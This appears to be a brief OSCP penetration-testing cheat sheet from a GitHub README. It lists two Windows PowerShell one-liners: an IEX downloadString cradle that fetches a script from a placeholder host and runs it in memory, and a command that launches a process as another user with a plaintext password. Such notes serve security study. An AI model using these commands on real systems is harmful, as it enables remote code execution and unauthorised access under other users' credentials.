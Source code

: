 # oscp-cheatsheet

## Windows 
- Download string that loads a ps script functions into memory: 
-- IEX(New-Object Net.Webclient).downloadString("http://0.0.0.0/script.ps1")
- Run cmd as other user:
-- $SecPass = ConvertTo-SecureString "password" -AsPlainText -Force; $cred = New-Object system.management.Automation.PSCredential('username', $SecPass); Start-Process -FilePath "powershell" -argumentlist "CMD" -Credential $cred
